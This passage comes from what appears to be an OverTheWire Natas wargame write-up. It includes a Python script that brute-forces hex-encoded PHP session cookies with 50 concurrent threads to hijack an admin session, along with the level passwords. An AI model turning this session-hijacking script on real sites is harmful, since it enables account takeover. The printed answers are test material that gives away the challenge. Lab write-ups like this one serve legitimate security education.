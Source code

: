 ```python

if __name__ == "__main__":
    main()
```

This code makes use of concurrency to speed up execution.

Password is:

`4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs`

## 20

Same as the level [19](19), but the cookies are now non-sequential. By logging
in a few times, we notice that the cookie is a hex-encoded string
`<session number>-<username>`. Using this information, we can brute force the
problem as before.

```python
# -*- coding: utf-8 -*-

import logging
import sys

import requests
import concurrent.futures


logging.basicConfig(level=logging.INFO, stream=sys.stderr)
logger = logging.getLogger(__name__)
# Silence noisy urllib3 debug logs
logging.getLogger("urllib3").setLevel(logging.CRITICAL)


def str_to_hex(string):
    char_codes = [ord(c) for c in string]
    hex_codes = [hex(c) for c in char_codes]
    clean_hex_codes = [h.split("0x")[1] for h in hex_codes]
    return "".join(clean_hex_codes)


def get_page_text(session_num):
    logger.debug(session_num)
    encoded_session_num = str_to_hex("-".join([str(session_num), "admin"]))
    r = requests.get(
        "http://natas19.natas.labs.overthewire.org",
        auth=("natas19", "4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs"),
        cookies={"PHPSESSID": str(encoded_session_num)})
    if "You are an admin." in r.text:
        logger.info("Admin session: %d", session_num)
        print r.text


def main():
    with concurrent.futures.ThreadPoolExecutor(max_workers=50) as executor:
        executor.map(get_page_text, range(640))


if __name__ == "__main__":
    main()
```

`eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF`

[^1]: Hacking into systems without explicit permission is illegal.
